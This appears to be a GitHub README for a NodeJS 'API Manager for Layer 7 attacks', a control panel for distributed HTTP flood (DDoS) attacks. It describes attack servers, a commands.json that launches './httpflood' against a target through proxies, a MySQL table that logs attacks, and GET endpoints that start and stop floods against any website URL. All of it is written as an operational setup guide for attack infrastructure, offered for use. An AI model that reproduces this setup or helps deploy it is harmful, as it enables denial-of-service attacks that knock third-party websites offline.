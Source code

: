 <h2>NodeJS API Manager for Layer 7 attacks</h2>

<h3>Coded by forky (tg: @yfork)</h3>

<h4>This API is very secure and fast (takes 2x the ping between the API and the backend, i.e. the ping is 60ms it will take only 120ms to launch the attack)</h4>


<h1>Installation:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo apt -y install nodejs
npm i express mysql
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "1": {
        "name": "1",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "2": {
        "name": "2",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt"
}
```

<h3>Update settings.json</h3><br>

```json
{
    "database": {
        "host": "localhost",
        "user": "DATABASE_USER",
        "password": "DATABASE_PASSWORD",
        "database": "DATABASE_NAME"
    },
    "socket_token": "SECRET_TOKEN", 
    "max_attacksn": 15,
    "api_port": 3000
}
```

<h3>Update client.js:</h3><br>

```js
const socket_port = 3000;
const socket_token = "SOCKET_TOKEN"; //your secret token to protect the TCP connection
const allowed_ips = ['1.1.1.1']; //the API server IP
```

<h3>Setup the Database</h3><br>

```sql
CREATE DATABASE manager;

use manager;

CREATE TABLE `attacks` (
    `id` int(11) NOT NULL,
    `server` varchar(300) DEFAULT NULL,
    `target` text DEFAULT NULL,
    `duration` int(11) NOT NULL,
    `method` varchar(255) DEFAULT NULL,
    `date_sent` int(11) DEFAULT NULL,
    `stopped` int(11) NOT NULL DEFAULT 0,
    `attack_id` int(11) DEFAULT NULL
);

ALTER TABLE `attacks` ADD PRIMARY KEY (`id`);

ALTER TABLE `attacks` MODIFY `id` int(11) NOT NULL AUTO_INCREMENT;
```

## After that, upload client.js to the attack servers and upload api.js, servers.json, commands.json and settings.json to the API server

### Reverse Proxy

Making a reverse proxy using Nginx to use your API is recommended:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api {
        proxy_pass http://backend:3000/api;
    }
}
```

Replace `'http://backend:3000/api'` with your API server URL

### Using the API

Send a GET request to the API using the required fields

GET `https://api.yourdomain.com/api/attack?target=https://website.com&duration=120&method=HTTPGET&server=1`

You can stop the attacks by sending a GET request to the API using the attack ID

GET `https://api.yourdomain.com/api/stop?attack_id=[id]`

You can also stop all the attacks sending a GET request to the API

GET `https://api.yourdomain.com/api/stop_all`
